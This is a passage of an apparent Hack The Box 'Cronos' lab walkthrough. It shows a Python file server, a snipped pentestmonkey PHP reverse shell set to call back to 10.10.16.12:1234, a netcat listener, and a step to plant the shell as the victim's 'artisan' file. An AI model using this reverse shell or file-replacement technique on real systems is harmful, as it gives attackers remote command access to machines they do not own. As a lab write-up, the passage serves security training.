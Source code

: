 ```bash

2025-02-16 00:28:46 (72.8 MB/s) - ‘artisan’ saved [5491/5491]

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Update the lhost ip address to the ip address of the tun0 interface.

{% raw %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

<snip>

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.12';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<snip>
```
{% endraw %}

<br />
Start a netcat listener.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ nc -nlvp 1234 
listening on [any] 1234 ...
```
{% endraw %}

<br />
Transfer the new pentest monkey artisan file to the victim machine.

